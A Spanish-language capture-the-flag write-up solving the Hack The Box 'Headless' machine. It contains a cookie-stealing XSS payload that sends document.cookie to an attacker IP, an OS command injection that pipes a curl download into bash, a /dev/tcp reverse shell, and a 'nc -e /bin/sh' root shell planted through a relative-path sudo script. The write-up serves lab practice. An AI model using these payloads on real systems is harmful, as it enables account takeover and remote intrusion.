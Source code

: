 ```yaml
---
title: Headless
description: Headless es una máquina Linux de dificultad fácil que cuenta con un servidor Python Werkzeug que aloja un sitio web. El sitio web tiene un formulario de soporte al cliente, el cual resulta ser vulnerable a blind Cross-Site Scripting (XSS) a través del encabezado User-Agent. Esta vulnerabilidad se utiliza para robar una cookie de administrador, que luego se usa para acceder al panel de administración. La página es vulnerable a inyecciones de comandos, lo que permite obtener un shell inverso en la máquina. Al enumerar el correo del usuario, se descubre un script que no utiliza rutas absolutas, lo cual se aprovecha para obtener un shell con privilegios de root.
date: 2024-05-23
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-headless/headless_logo.png
categories:
  - Hack_The_Box
  - Machines
tags:
  - linux
  - hack_the_box
  - xss
  - os_command_injection
  - sudo_abuse
  - ssh
  - upnp
  - tcp
  - information_gathering
  - web_analysis
  - vulnerability_exploitation
  - privilege_escalation

---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/machines/headless:-$ sudo nmap -sC -sV -p- 10.10.11.8
```

![](/assets/img/htb-writeup-headless/headless1.png)

```terminal
/home/kali/Documents/htb/machines/headless:-$ echo '10.10.11.8\theadless.htb' | sudo tee -a /etc/hosts
```
```terminal
/home/kali/Documents/htb/machines/headless:-$ gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/dirb/big.txt
/dashboard (Status: 500) [Size:  265]
/support   (Status: 200) [Size: 2363]
```
---
## Web Analysis & Vulnerability Exploitation

![](/assets/img/htb-writeup-headless/headless1_1.png)
![](/assets/img/htb-writeup-headless/headless2.png)
![](/assets/img/htb-writeup-headless/headless3.png)
![](/assets/img/htb-writeup-headless/headless4.png)

La web presenta una vulnerabilidad de Cross-Site Scripting (XSS). Aprovechando esta vulnerabilidad, puedo robar una cookie que me permitiría autenticarme como un usuario autorizado.

Para explotar esta vulnerabilidad, intercepto una petición 'POST' del formulario ubicado en la dirección '/support'. Luego, configuro un servidor para recibir la cookie robada.
```terminal
/home/kali/Documents/htb/machines/headless:-$ python3 -m http.server 8003 
	Serving HTTP on 0.0.0.0 port 8003 http://0.0.0.0:8003/ ...
```
El ataque XSS tiene dos partes principales.

* Inyección de un script en el encabezado 'User-Agent' para robar cookies.

```
User-Agent: <script>var i=new Image(); i.src="http://10.10.16.59:8003/?cookie="+btoa(document.cookie);</script>
```

* Inyección del mismo script en un campo de formulario 'Contact Support' para robar cookies cuando se visualiza el contenido del mensaje.

```
fname=ad&lname=min&email=ad%http://40min.com/&phone=%2B55-555+5555&message=<script>var i=new Image(); i.src="http://10.10.16.59:8003/?cookie="+btoa(document.cookie);</script>
```

![](/assets/img/htb-writeup-headless/headless5.png)

```terminal
	... 10.10.11.8 - - [22/May/2024 19:36:24]
"GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```
Recibo la cookie en base64 y la descodifico.
```terminal
/home/kali/Documents/htb/machines/headless:-$ echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d 
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```
Intercepto una peticion 'GET' de la direccion '/dashboard', agrrego la nueva cookie y devuelvo la peticcion.

![](/assets/img/htb-writeup-headless/headless6.png)

Consigo autentificarme exitosamente.

![](/assets/img/htb-writeup-headless/headless7.png)

Analizando la peticion 'POST', encuentro que es vulnerable a OS Command Injection.

Creo una reverse shell y monto un servidor para que la maquina victima descarge el payload.
```terminal
/home/kali/Documents/htb/machines/headless:-$ echo "/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.16.59/4444 0>&1'" > payload.sh

/home/kali/Documents/htb/machines/headless:-$ python3 -m http.server 8001
	Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
```
Me pongo en escucha con Netcat e injecto el comando malisioso por Burpsuite.
```terminal
/home/kali/Documents/htb/machines/headless:-$ nc -nvlp 4444 
	listening on [any] 4444 ...
```

![](/assets/img/htb-writeup-headless/headless8.png)

```terminal
date=2023-09-15;curl http://10.10.16.59:8001/payload.sh%7Cbash > Send

 	...connect to [10.10.16.59] from (UNKNOWN) [10.10.11.8] 39442 

dvir@headless:~$ cat user.txt 
```

---
## Privilege Escalation

El usuiario 'dvir' puede ejecutar el comnado '/usr/bin/syscheck' como 'sudo'.

```terminal
dvir@headless:~$ sudo -l
```

![](/assets/img/htb-writeup-headless/headless9.png)

El comando '/usr/bin/syscheck' ejecuta el archivo 'initdb.sh'. Por tanto, puedo agregar un payload dentro del archivo 'initdb.sh'.

```terminal
dvir@headless:~$ cat /usr/bin/syscheck
```

![](/assets/img/htb-writeup-headless/headless10.png)

```terminal
dvir@headless:~$ echo "nc -e /bin/sh 10.10.16.59 1212" > initdb.sh
dvir@headless:~$ chmod +x initdb.sh
```
Agrego permisos de ejecucion, me pongo en escucha con Netcat y ejecuto el comando.
```terminal
/home/kali/Documents/htb/machines/headless:-$ nc -nvlp 1212
dvir@headless:~$ sudo /usr/bin/syscheck
```

![](/assets/img/htb-writeup-headless/headless11.png)

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/594" target="_blank">***Litio7 has successfully solved Headless from Hack The Box***</a>
{: .prompt-info style="text-align:center" }